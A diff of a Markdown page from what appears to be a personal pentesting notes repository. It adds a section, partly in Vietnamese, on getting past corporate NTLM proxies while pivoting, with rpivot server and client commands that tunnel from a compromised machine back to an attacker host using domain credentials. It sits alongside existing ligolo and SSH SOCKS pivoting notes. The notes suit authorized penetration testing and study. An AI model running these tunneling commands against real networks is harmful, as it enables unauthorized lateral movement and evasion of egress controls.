

Before and after one commit to HackerTyperAbuser/AttackNotes, a Markdown page: Network Pentesting/Lateral Movement/Pivoting.md, the part around the change. Rendered like a GitHub page; pictures changed too: img/Pasted image 20260913184549.png (added); blank space fills up the shorter version.

Commit message:
feat: NTLM proxies bypass

````diff
--- a/Network Pentesting/Lateral Movement/Pivoting.md
+++ b/Network Pentesting/Lateral Movement/Pivoting.md
@@ -40,6 +40,20 @@ Add route on Kali
 sudo ip route add 172.16.10.0/24 dev ligolo
 ```
 Attacker can now attack `172.16.10.0/24` without using `proxychains`.
+# Bypass NTLM proxies in corporate networks
+Nếu công cụ proxy gặp lỗi, hoặc phát hiện lỗi `HTTP 407 Proxy Authentication Required` khi kết nối tới internet, này gặp khi môi trường có NTLM proxy (cho toàn bộ HTTP/HTTPs request), yêu cầu login trước khi được kết nối.
+![](../../img/Pasted%20image%2020260913184549.png)
+- Khi file upload (sử dụng giao thức khác SMB [File Transfers](../File%20Transfers.md))
+- Khi pivoting (rpivot)
+Attacker
+```bash
+python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
+```
+Máy pivot (cần python2)
+```bash
+python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
+```
+Kết nối bằng `proxychains`
 # SSH Tunneling with SOCKS proxy
 SSH connection -> open SOCKS on port 9050 (default) -> SOCKS communication is wrap by SSH.
 - Dùng SSH kết nối -> Sau khi kết nối mở cổng 9050 để giao tiếp với SOCKS proxy trên máy local -> kết nối TCP được đẩy từ SOCKS proxy qua SSH tới máy pivot (máy có kết nối SSH)
````
